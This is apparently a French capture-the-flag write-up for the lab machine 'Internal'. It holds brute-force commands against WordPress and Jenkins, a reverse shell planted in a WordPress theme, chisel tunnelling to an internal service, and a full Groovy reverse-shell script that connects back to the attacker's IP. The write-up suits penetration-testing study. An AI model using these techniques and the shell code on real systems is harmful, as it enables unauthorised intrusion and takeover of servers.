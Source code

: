 # Internal

![image(1)](https://user-images.githubusercontent.com/68467919/209453887-a2b5235a-e2f2-4310-aee1-4affde4b2921.png)

## Énumération

### Nmap

```bash
sudo nmap -sC -sV -O -oN enum/nmap -vv internal.thm

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6efaefbef65f98b9597bf78eb9c5621e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed64ed33e5c93058ba23040d14eb30e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b07f7f7b5262622a60d43d36fa89eeff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

### Gobuster

```bash
gobuster dir -u http://internal.thm -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o enum/directory.txt

/blog                 (Status: 301) [Size: 311] [--> http://internal.thm/blog/]
/wordpress            (Status: 301) [Size: 316] [--> http://internal.thm/wordpress/]
/javascript           (Status: 301) [Size: 317] [--> http://internal.thm/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://internal.thm/phpmyadmin/]
```

## Port 80 | HTTP

Quand nous nous rendons sur le port 80, nous pouvons découvrir la page par défaut d’Apache. En énumérant les différentes directories, nous pouvons nous rendre compte qu’un répertoire *blog* est accessible.

![Untitled](https://user-images.githubusercontent.com/68467919/209453890-ba75acbf-5633-403a-9d06-1dc5300aa39d.png)

### WpScan

En énumérant les utilisateurs du Wordpress, un seul ressort dans l’output du scan et c’est l’utilisateur admin. Vu qu’XMLRPC est activé, nous pouvons tenter de faire un bruteforce contre la page login du wp-admin pour essayer de trouver le mot de passe de l’utilisateur.

```bash
wpscan -t 5 --url http://internal.thm/blog/ --wp-content-dir /wp-admin/ -U user.txt -P ~/SecLists/Passwords/Leaked-Databases/rockyou.txt

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my[...]ys
```

Grâce à la wordlist *rockyou.txt*, nous trouvons le mot de passe de l’admin ! Nous pouvons désormais nous connecter au panel administrateur.

![Untitled 1](https://user-images.githubusercontent.com/68467919/209453895-bf658811-c4b8-48a5-bf56-dd9012426a98.png)

## Reverse-Shell

En modifiant la page 404.php de la template que le Wordpress utilise (twentyseventeen), nous pouvons y mettre notre propre reverse-shell. 

![Untitled 2](https://user-images.githubusercontent.com/68467919/209453955-9d73de31-4d56-4e8b-8b9d-807c8e45d812.png)

Par la suite, nous pouvons lancer notre listener et nous rendre dans le répertoire de la template (blog/wp-content/themes/twentyseventeen/) puis sur la page 404.php.

```bash
nc -lvnp 1337
```

→ *http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php*

![Untitled 3](https://user-images.githubusercontent.com/68467919/209453899-cdf6fa25-ad9b-4969-8fe2-021800e95eba.png)


## Aubreanna | User

En recherchant rapidement sur les fichiers du système, dans le répertoire */opt* nous pouvons trouver un fichier du nom de “*wp-save.txt”* qui contient les logs de l’utilisateur Aubreanna.

```bash
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bub[...]@#123
```

Nous pouvons désormais nous connecter en SSH à sa session pour obtenir un shell plus stable.

![Untitled 4](https://user-images.githubusercontent.com/68467919/209453903-6a2b1355-d0e8-4b33-b361-415cd9d10e0b.png)


## Jenkins | Port Forwarding

En allant dans le home directory de aubreanna, nous pouvons encore trouver un fichier du nom de “*jenkins.txt*” qui nous indique qu’un service est entrain de run en local. 

```bash
Internal Jenkins service is running on 172.17.0.2:8080
```

Nous pouvons en déduire également que nous nous trouvons dans un docker. Pour le vérifier, nous pouvons taper la commande ifconfig.

```bash
ifconfig

docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:aeff:fe74:ff4e  prefixlen 64  scopeid 0x20<link>
        ether 02:42:ae:74:ff:4e  txqueuelen 0  (Ethernet)
        RX packets 8  bytes 420 (420.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 18  bytes 1324 (1.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 9001
        inet 10.10.197.88  netmask 255.255.0.0  broadcast 10.10.255.255
        inet6 fe80::57:30ff:fe64:2a39  prefixlen 64  scopeid 0x20<link>
        ether 02:57:30:64:2a:39  txqueuelen 1000  (Ethernet)
        RX packets 415114  bytes 50820091 (50.8 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 467047  bytes 634869473 (634.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 866  bytes 80254 (80.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 866  bytes 80254 (80.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

vethad750dd: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::54b2:f8ff:fe12:50c8  prefixlen 64  scopeid 0x20<link>
        ether 56:b2:f8:12:50:c8  txqueuelen 0  (Ethernet)
        RX packets 8  bytes 532 (532.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 33  bytes 2470 (2.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Pour pouvoir accéder depuis notre machine au service Jenkins, j’ai décidé de télécharger *chisel* pour pour effectuer un port forwarding.

```bash
# sur ma machine
./chisel server -p 8888 -reverse

# sur la machine distante
./chisel client VOTREIP:8888 R:8889:localhost:8080
```

Désormais, en nous rendant en [localhost](http://localhost) sur le port 8889, nous pouvons utiliser le service Jenkins et pouvoir commencer à investiguer !

![Untitled 5](https://user-images.githubusercontent.com/68467919/209453905-9acb4bdd-c176-47af-8022-f7f666f0f4cd.png)


### Bruteforce (oui encore)

En tombant sur ce poste sur StackOverflow, j’ai pensé à essayer de créer un nouvel utilisateur via */securityRealm/addUser* mais en analysant la réponse de la requête sur BurpSuite, il m’est indiqué qu’il est impossible pour moi de pouvoir le faire étant donné que je suis authentifié en tant qu’anonymous.

[https://stackoverflow.com/questions/15227305/what-is-the-default-jenkins-password](https://stackoverflow.com/questions/15227305/what-is-the-default-jenkins-password)

![Untitled 6](https://user-images.githubusercontent.com/68467919/209453906-2c79e781-adf4-4624-ad61-71a787384fdb.png)
![Untitled 7](https://user-images.githubusercontent.com/68467919/209453926-f77afcad-4fbd-4ea2-9d69-77767593f9ad.png)

J’ai pensé à essayer de faire une requête curl depuis la machine vers cet endpoint pour essayer de me créer un utilisateur mais ça n’a pas fonctionné non plus.

### Hydra

En repensant aux étapes par laquelle je suis passé pour arriver jusqu’ici, j’ai eu l’idée de réessayer un bruteforce sur la page de connexion de Jenkins.

![Untitled 8](https://user-images.githubusercontent.com/68467919/209453927-0d1624b2-a8b2-48be-a618-eb989e5e4649.png)


Le mot de passe est trouvé, nous pouvons désormais nous connecter au panel Jenkins !

## Reverse-Shell | Jenkins

Jenkins dispose d'une console de script Groovy qui permet d'exécuter des scripts Groovy arbitraires dans l'environnement d'exécution du contrôleur Jenkins ou dans l'environnement d'exécution des agents. Pour obtenir un reverse-shell depuis Jenkins, il faut nous rendre dans **********************Manage Jenkins → Script Console********************** et rentrer ces commandes ci-dessous : 

```bash
String host="{your_ip}";
int port=8044;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());
so.flush();po.flush();Thread.sleep(50);
try {p.exitValue();break;}catch (Exception e){}};
p.destroy();s.close();
```

![Untitled 9](https://user-images.githubusercontent.com/68467919/209453931-86805f7b-f74f-468a-88b0-bd59c05a0e46.png)


## Root | root.txt

Rien de sensationnel pour pouvoir élever nos privilèges pour devenir root. En allant dans le fichier */opt/* nous pouvons trouver un deuxième fichier s’appelant “*note.txt*”. A l’intérieur, nous pouvons y trouver le password root. En nous rendant sur sur la session de Aubreanna, nous pouvons nous connecter en SSH au compte root.

*note.txt*

```bash
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr[...]uM!@#123
```
![Untitled 10](https://user-images.githubusercontent.com/68467919/209453934-74022b34-5280-4f59-b319-08f6e8a3261d.png)

